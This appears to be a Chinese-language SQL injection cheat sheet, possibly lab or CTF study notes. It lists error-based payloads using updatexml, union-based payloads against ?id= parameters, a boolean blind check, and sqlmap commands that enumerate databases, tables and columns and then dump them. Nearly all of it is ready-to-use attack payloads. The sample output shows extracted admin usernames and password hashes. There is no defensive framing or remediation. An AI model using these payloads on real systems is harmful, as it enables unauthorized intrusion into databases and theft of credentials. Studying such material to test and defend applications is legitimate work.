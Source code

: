 # SQL注入

## 报错注入

报错数据库名 

- select updatexml(1,concat(0x7e,database()),1); 

' or updatexml(1,concat(0x7e,database()),1);# 

abc 

 

报错数据库表 

- select updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1); 

' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1);# 

admin 

 

如果数据库中的表（table）只有一个 

- select updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database())),1); 

' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database())),1);# 

 

报错数据库表中的列 

- select updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=**'****table name****'**)),1); 

'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=**'****admin****'**)),1);# 

username password 

 

'or updatexml(1,substr(concat(0x7e,(select concat(username,',',password) from abc.admin)),4,32),1);# 

21232f297a57a5a743894a0e4a8 

Love_is_a_light_that_never_dims 



报错数据库中的数据 

- select updatexml(1,concat(0x7e,(select concat(**id**,',',**username**,',',**password**) from **login.user** limit 0,1)),1); 

'or updatexml(1,substr(concat(0x7e,(select concat(**username**,',',**password**) from **abc.admin** limit 1,1)),4,32),1);# 

查看从0开始第1个数据 

 

报出多个数据 

- select updatexml(1,concat(0x7e,(select group_concat(**id,',',username,',',password**) from **login.user** limit 0,2)),1); 

'or updatexml(1,concat(0x7e,(select group_concat(**id,',',username,',',password**) from **login.user** limit 0,2)),1);# 

用group_concat输出多个数据 

## 联合注入

?id=1 order by **n** 

 

?id=-1 union select 1,2,3,4,5,6,7, 

database() 

,9,10 

 

xycms 

 

?id=-1 union select 1,2,3,4,5,6,7, 

group_concat(table_name) 

,9,10 from information_schema.tables where table_schema=database() 

 

common,config,down_fl,gbook,manage_user,menu,news,news_fl,pro_fl,xy_case,xy_download,xy_pro,xy_zp 

 

?id=-1 union select 1,2,3,4,5,6,7, 

group_concat(column_name) 

,9,10 from information_schema.columns where table_schema=database() and table_name='**manage_user**' 

 

id,m_name,m_pwd,c_date 

 

?id=-1 union select 1,2,3,4,5,6,7, 

group_concat(**m_name,0x7e,m_pwd**) 

,9,10 from **manage_user** limit 0,1 

 

admin~21232f297a57a5a743894a0e4a801fc3 

 ## 布尔注入

' or ascii(substr(database(),1,1)) > 105# 

判断 



# sqlmap指令

1. 扫描数据库名，用于获取数据库的名称

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" --current-db
   ```

2. 扫描本数据库的表

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> --tables
   ```

3. 扫描数据库表的列

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> -T <table> --columns
   ```

4. 获取数据库表中列的信息

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> -T <table> -C <column1>,<column2>,... --dump
   ```

   